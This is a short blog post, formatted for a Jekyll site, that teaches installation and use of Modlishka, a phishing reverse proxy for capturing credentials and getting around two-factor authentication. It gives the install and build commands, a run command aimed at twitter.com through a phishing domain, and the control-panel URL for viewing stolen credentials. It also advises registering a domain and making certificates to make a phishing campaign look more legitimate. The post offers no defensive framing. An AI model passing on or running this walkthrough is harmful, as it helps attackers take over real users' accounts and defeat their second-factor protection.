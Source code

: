 ```yaml
---
layout: post
title: Modlishka 2FA Phishing Tool
date: 2018-03-15
image: '/images/posts/modlishka.jpg'
categories: ["tools"]
tags: ["tools"]
---
```


Open Source Phishing Tool With 2FA Authentication

<!--more-->

Modlishka is a really neat tool based on go. It is a phishing proxy that supports 2FA authentication. This is what makes this tool so great.

The tool is simple to configure and allows the attacker to control all traffic from the target's browser.

Let's install and test Modlishka:

<h1> Installing Modlishka </h1>

You will need to download the repo from github with the following command:
```
go get -u github.com/drk1wi/Modlishka
```

Then traverse to the 'go' folder and run the below followed with the make command:

```
cd $GOPATH/go/src/github.com/drk1wi/Modlishka/
```

```
make
```
And that's all.


<h1>Actually Running Modlishka </h1>
To run the proxy go to the 'dist' folder and run the 'proxy' script
```
cd dist/
```
```
./proxy -h
```
<br>
<img src="/modlishkahelp.jpg" alt="ModlishkaHelp">

<br>

As you can see, Modlishka comes with some pretty flashy features. It allows you to create your own SSL certification using openssl which will allow your phishing campaign to look more trustworthy and legitimate. You will likely want to register a domain name to further the false legitimacy.
<br>
It also allows you to bypass some security measures such as anti-SSRF.
Run the command below against a target site to see the proxy in action. The phishingDomain option can be changed to fit you needs. I am using the loopback.modlishka.io which requires you to change the index.html file inside the apache folder (/var/www/).

```
./proxy -target https://twitter.com -phishingDomain local.modlishka.com -listeningPort 80
```
<br>
<img src="/img/modlishkarun.jpg" alt="ModlishkaRun">

<br>

You can then access the control panel to see all the credentials you captured. To do this, visit the below in your browser:
```
http://local.modlishka.com/SayHello2Modlishka/
```
<br>

Below is a shared video demonstrating Modlishka in real-time
<br>
<iframe src="https://player.vimeo.com/video/308709275" width="640" height="360" frameborder="0" allowfullscreen></iframe>


<br>

Thanks for reading!
